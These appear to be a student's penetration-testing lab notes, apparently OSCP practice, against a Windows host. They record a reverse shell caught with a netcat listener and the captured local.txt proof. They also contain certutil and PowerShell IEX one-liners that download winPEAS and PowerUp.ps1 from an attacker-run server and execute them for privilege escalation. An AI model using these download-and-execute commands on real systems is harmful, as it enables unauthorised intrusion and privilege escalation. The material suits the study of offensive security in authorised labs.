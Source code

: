 ![[netcat listener and http server.png]]



Local.txt and ip a
```shell
#local,txt & ip a

C:\Users\Derek\Desktop>type local.txt
type local.txt
d79aa3c13a297053f28563aebd15d8f7

C:\Users\Derek\Desktop>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 192.168.118.114
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.118.254

C:\Users\Derek\Desktop>

```
![[local.txt and ipconfig.png]]



```shell

certutil.exe -urlcache -split -f "http://192.168.49.118/winPEASx64.exe"

going to use powerup

echo IEX(New-Object Net.WebClient).DownloadString('http://192.168.49.118:80/PowerUp.ps1') | powershell -noprofile -
echo IEX(New-Object Net.WebClient).DownloadString('http://192.168.49.118:80/PowerUp.ps1') | powershell -noprofile -
```


![[Penetration Testing v2/oscp pass 20230412/2. 192.168.118.114 - done/screenshot actual/power up modifiable service files.png]]

netcat & modifiable service files
```shell

┌──(root㉿kali)-[/home/kali]
└─# nc -lvnp 4231
listening on [any] 4231 ...
connect to [192.168.49.118] from (UNKNOWN) [192.168.118.114] 50565
Microsoft Windows [Version 10.0.19042.631]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\Program Files (x86)\Mini Mouse>echo IEX(New-Object Net.WebClient).DownloadString('http://192.168.49.118:80/PowerUp.ps1') | powershell -noprofile -
echo IEX(New-Object Net.WebClient).DownloadString('http://192.168.49.118:80/PowerUp.ps1') | powershell -noprofile -echo IEX(New-Object Net.WebClient).DownloadString('http://192.168.49.118:80/PowerUp.ps1') | powershell -noprofile -


ServiceName                     : edgeupdate
Path                            : "C:\Program Files 
                                  (x86)\Microsoft\EdgeUpdate\MicrosoftEdgeUpdate.exe" /svc
```